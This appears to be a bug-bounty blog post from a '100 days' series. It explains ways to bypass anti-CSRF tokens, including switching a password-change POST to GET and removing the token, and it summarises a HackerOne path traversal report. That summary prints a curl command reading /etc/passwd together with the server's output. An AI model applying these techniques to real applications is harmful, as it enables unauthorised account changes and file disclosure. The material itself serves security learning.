 ```yaml
---
title:  "Day 20/100 Hack and Improvement"
date: 2020-05-20
tags: [Penetration Testing, Hacking, Bug Bounty, Offensive Security]
header: 
  image: "assets/images/100dl/day20/header.jpg"
---
```



## Bypassing CSRF Protection

[Rajesh Ranjan](https://twitter.com/eh_rajesh). In most of the cases, the web applications are protected by some anti CSRF token, but there are few ways by which we can bypass these protection. Here I have describe few ways to bypass the protection. 

### Replacing the token value with same length

Sometimes by replacing the token with the same length may lead to bypass the CSRF protection, like if the token value is of 32 character long in the ```csrf_token``` variable, then try to replace the same with another 32 character value.

**Example:** if your token value ```csrf_token=8d959ed6e0109c03635b45921f9b17d9``` then replace it with the any 32 character long like ```csrf_token=abcdefghijklmnop1234432123```

### Changing the Request Method

The another way to Bypass the CSRF protection is by changing the request method, like if any sensitive action is done via POST method, try to change it to GET method, sometime it might work.

**Example:**

Suppose here is a request for the password change.
```
POST /change_password
```
Body:
```
new_password=12345
```

**TO**
```
GET /change_password?new_password=12345
```

### Remove the CSRF token completely

This technique for bypassing the CSRF protection is famous and it works in few cases. In this what we can do is, remove the ```csrf_token``` value completely and then submit the request. 

**Case 1:** I was testing a web application and found that, while adding an address to account, there is an anti-csrf token present in the request. So I tried to remove the ```csfr_token``` value from the request and the request got submitted. So I was able to add attacker’s address into the Victim’s account

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/100dl/day20/csrf.png" alt="nmap scan">


**Case 2:** This was an e-commerce website and there was an option to add items to cart. So I capture the add to cart request, and tried to remove the anti-csrf token, and the same way request got submitted. 

In this case, an attacker may be able to add any items to victim cart. If victim do not find this item, he/she would pay for this item which can greatly influence company reputation

4

## Path Traversal and Capabilities

Path traversal attacks are also known as directory traversal which leads to unrestricted access to different directories that are stored outside the web root folder. Manipulating different variables that references files such as, ```../../../``` sequences the attacker can achieve unrestricted access to files that are related to the application sources code or configuration in the critical files. 

## Write Up and Explanation

[**Path Traversal vulnerability allows to read content on arbitrary file on the server**](https://hackerone.com/reports/310943)

The attacker saw the path traversal possible through a general file server made by nodejs. Once the attacker knew the technology that it was running, he proceeds to install the ```general file server``` in his machine by serving the different modules and executing the following curl command:

```
curl -v --path-as-is http://127.0.0.1:8080/../../../../../../etc/passwd
```

The attacker got the following result:
```
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> GET /../../../../../../etc/passwd HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Content-Type: application/octet-stream
< Date: Wed, 31 Jan 2018 12:53:13 GMT
< Connection: keep-alive
< Transfer-Encoding: chunked
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
(...)
```


